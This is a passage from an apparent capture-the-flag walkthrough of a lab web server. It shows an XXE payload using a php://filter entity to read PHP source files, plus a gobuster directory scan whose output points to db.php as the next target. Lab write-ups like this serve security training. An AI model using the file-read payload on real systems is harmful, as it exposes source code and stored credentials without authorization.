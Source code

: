 ## **Foothold**

Now we use a slightly different payload than before which is:

```xml
<!DOCTYPE root [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php" >]>
```

This allows us to view php code without it being executed by the web server.

I checked `index.php`, `portal.php` and the `log_submit.php` files but didn't find anything useful.

### Gobuster

Let's scan for php files using gobuster.

```terminal
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.11.100 -x php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.100
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2023/01/23 07:34:27 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess.php        (Status: 403) [Size: 277]
/.htpasswd.php        (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/.hta.php             (Status: 403) [Size: 277]
/assets               (Status: 301) [Size: 313] [--> http://10.10.11.100/assets/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.100/css/]   
/db.php               (Status: 200) [Size: 0]                                    
/index.php            (Status: 200) [Size: 25169]                                
/index.php            (Status: 200) [Size: 25169]                                
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.100/js/]    
/portal.php           (Status: 200) [Size: 125]                                  
/resources            (Status: 301) [Size: 316] [--> http://10.10.11.100/resources/]
/server-status        (Status: 403) [Size: 277]                                     
===============================================================
```

`db.php`, that must be the file we're looking for, let's retrieve it.

![](9.png)
